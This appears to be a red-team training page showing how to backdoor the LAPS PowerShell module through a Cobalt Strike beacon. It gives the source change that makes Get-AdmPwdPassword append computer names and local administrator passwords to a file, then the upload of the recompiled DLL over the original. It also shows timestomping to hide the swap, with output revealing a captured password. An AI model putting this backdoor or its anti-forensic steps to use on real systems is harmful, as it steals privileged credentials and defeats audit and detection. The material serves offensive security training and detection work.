 The PowerShell cmdlets for LAPS can be found in `C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS`.

```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 30kb     fil     09/23/2016 00:38:16   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```
  
The original source code for LAPS can be found [here](https://github.com/GreyCorbel/admpwd) - we can compile a new copy of the DLL with some hidden backdoors. In this example, we backdoor the `Get-AdmPwdPassword` method to write the password to a file, so that when an admin legitimately gets a password, we can have a copy.

The original method is very simple (located in `Main/AdmPwd.PS/Main.cs`):

```powershell
[Cmdlet("Get", "AdmPwdPassword")]
public class GetPassword : Cmdlet
{
    [Parameter(Mandatory = true, Position = 0, ValueFromPipeline = true)]
    public String ComputerName;

    protected override void ProcessRecord()
    {
        foreach (string dn in DirectoryUtils.GetComputerDN(ComputerName))
        {
            PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);
            WriteObject(pi);
        }
    }
}
```

We can add a simple line to append the computer name and password to a file.

```powershell
PasswordInfo pi = DirectoryUtils.GetPasswordInfo(dn);

var line = $"{pi.ComputerName} : {pi.Password}";
System.IO.File.AppendAllText(@"C:\Temp\LAPS.txt", line);

WriteObject(pi);
```

Compile the project and upload `AdmPwd.PS.dll` to the machine.

```
beacon> upload C:\Tools\admpwd\Main\AdmPwd.PS\bin\Debug\AdmPwd.PS.dll
```
  

Replacing the original file has changed the **Last Modified** timestamp for `AdmPwd.PS.dll`.

```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 15kb     fil     03/16/2021 18:43:43   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

Use Beacon's `timestomp` command to "clone" the timestamp of `AdmPwd.PS.psd1` and apply it to `AdmPwd.PS.dll`.

```
beacon> timestomp AdmPwd.PS.dll AdmPwd.PS.psd1
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/16/2021 17:09:59   en-US
 15kb     fil     08/23/2016 14:40:58   AdmPwd.PS.dll
 5kb      fil     08/23/2016 14:40:58   AdmPwd.PS.format.ps1xml
 4kb      fil     08/23/2016 14:40:58   AdmPwd.PS.psd1
 33kb     fil     09/22/2016 08:02:08   AdmPwd.Utils.dll
```

Go ahead and run `Get-AdmPwdPassword` and then check `C:\Temp`.

```
beacon> ls C:\Temp

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 24b      fil     03/16/2021 18:48:13   LAPS.txt

beacon> shell type C:\Temp\LAPS.txt
WKSTN-2 : P0OPwa4R64AkbJ
```

There are clearly more subtle ways to go about this, and dropping to a text file in `C:\` is not the best strategy. But since we have access to source code, we can do anything we want.